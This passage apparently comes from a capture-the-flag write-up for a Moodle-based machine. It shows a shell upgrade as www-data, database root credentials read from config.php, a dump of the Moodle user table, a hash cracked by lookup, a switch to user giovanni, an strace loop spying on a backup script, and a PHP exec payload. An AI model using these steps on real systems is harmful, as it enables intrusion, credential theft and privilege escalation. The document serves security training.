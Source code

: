 > Note: Trying course=1 showed an error from the script asking if the script belonged to the teacher so I changed it to 2.

Received shell as www-data

![image](https://user-images.githubusercontent.com/10210108/85214492-7d9a6680-b339-11ea-9c40-0b9cbda6061f.png)

I upgraded to a fully functioning shell by running the following commands.
```
python -c 'import pty;pty.spawn('/bin/bash')'
CTRL+Z
stty raw -echo
fg <enter><enter>
export SHELL=/bin/bash
export TERM=xterm-color
```

mariadb password

![image](https://user-images.githubusercontent.com/10210108/85214516-fd283580-b339-11ea-9e50-bba7556ae689.png)

```
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';

```
I logged into mysql via the cli using the password found in config.php **Welkom1!**

```
mysql -u root -p
```
![image](https://user-images.githubusercontent.com/10210108/85214722-0666d180-b33d-11ea-8a22-d00519a3c212.png)

I ran a command to show databases (show databses;), selected moodle (use moodle;), showed tables (show tables;), and output all records for mdl_users (select * from mdl_user;). I found what looked like an MD5 hash

![image](https://user-images.githubusercontent.com/10210108/85214739-53e33e80-b33d-11ea-9dcb-ff3b158e881b.png)

I did an internet search for the hash and found that a site had it already reversed. **expelled**

![image](https://user-images.githubusercontent.com/10210108/85214752-842add00-b33d-11ea-86f9-9c17eb882d03.png)

I used the command su log in as giovanni

![image](https://user-images.githubusercontent.com/10210108/85214841-6ad66080-b33e-11ea-8b25-e0e74b7bb705.png)

```
while true; do pid=$(pgrep 'backup.sh' | head -1); if [[ -n "$pid" ]]; then strace  -s 2000 -vvtf -p "$pid"; break; fi; done
```
```
<?php echo exec('id > /tmp/b.txt'); ?>
```
